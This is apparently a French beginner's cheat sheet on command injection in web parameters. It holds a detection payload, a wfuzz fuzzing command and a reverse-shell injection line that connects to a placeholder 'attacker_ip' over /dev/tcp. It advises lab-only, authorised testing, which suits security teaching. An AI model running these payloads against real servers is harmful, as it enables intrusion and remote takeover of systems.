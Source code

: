 # Command Injection (Injection de Commandes)

## Objectif
Exploiter une faille pour exécuter des commandes système sur le serveur via un paramètre web vulnérable.

---

## Commandes essentielles et explications

### 1. Détection de la vulnérabilité
- Tester des payloads dans un paramètre :
```
http://target.com/page.php?ip=127.0.0.1;id
```
- **À quoi ça sert ?** Si la sortie de la commande `id` s’affiche, la page est vulnérable à l’injection de commandes.
- **Astuce débutant** : Tester aussi avec `|`, `&&`, `||` selon le langage du backend.

### 2. Exploitation avancée
- Reverse shell via injection :
```
http://target.com/page.php?ip=127.0.0.1;bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
- **À surveiller** : Exécution de commandes, ouverture d’une connexion vers ta machine.

### 3. Utilisation d’outils automatisés
```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/commands.txt --hh 0 "http://target.com/page.php?ip=FUZZ"
```
- **wfuzz** : Fuzzer pour tester de nombreux payloads automatiquement.
- **--hh 0** : Ignore les réponses vides.

---

## Conseils pour débutants
- Toujours tester d’abord en manuel, puis automatiser avec wfuzz ou ffuf.
- Ne pas négliger les messages d’erreur affichés par le site.
- Tester sur des environnements de lab, jamais en production sans autorisation.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection) 